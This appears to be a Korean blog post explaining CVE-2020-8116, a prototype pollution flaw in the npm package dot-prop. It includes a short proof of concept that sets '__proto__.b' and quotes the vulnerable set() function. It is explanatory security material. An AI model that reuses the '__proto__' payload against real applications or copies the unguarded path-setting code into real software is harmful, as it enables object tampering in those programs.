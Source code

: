 ```javascript
// Has
dotProp.has({foo: {bar: 'unicorn'}}, 'foo.bar');
//=> true
 
// Deleter
const object = {foo: {bar: 'a'}};
dotProp.delete(object, 'foo.bar');
console.log(object);
//=> {foo: {}}
 
object.foo.bar = {x: 'y', y: 'x'};
dotProp.delete(object, 'foo.bar.x');
console.log(object);
//=> {foo: {bar: {y: 'x'}}}
```





  `CVE-2020-8116`은 `CVSS SCORE`로 6.3 점을 받았을 만큼 무시할 수만은 없는 취약점이다. 하지만 취약점의 위험도에 비해 그 원리는 너무나 단순하다.  이 취약점의 PoC이다. 



```javascript
const dotProp = require("dot-prop")
const object = {};
console.log("Before " + object.b); //Undefined
dotProp.set(object, '__proto__.b', true);
console.log("After " + {}.b); //true
```



 객체 리터럴이 Object.prototype을 참조하는데, Object.prototype에 b가 `true`로 지정되어 있기 때문에 제일 마지막 console.log 에서는 `undefined`가 아닌 `true`가 출력된다. Prototype Pollution이 발생한 것이다. 내부 코드를 보면 더욱 별거 아니다.



```javascript
set(object, path, value) {
	if (!isObj(object) || typeof path !== 'string') {
		return object;
	}

	const root = object;
	const pathArray = getPathSegments(path);

	for (let i = 0; i < pathArray.length; i++) {
		const p = pathArray[i];

		if (!isObj(object[p])) {
			object[p] = {};
		}

		if (i === pathArray.length - 1) {
			object[p] = value;	// exploitable !
		}

		object = object[p];
	}

	return root;
}
```
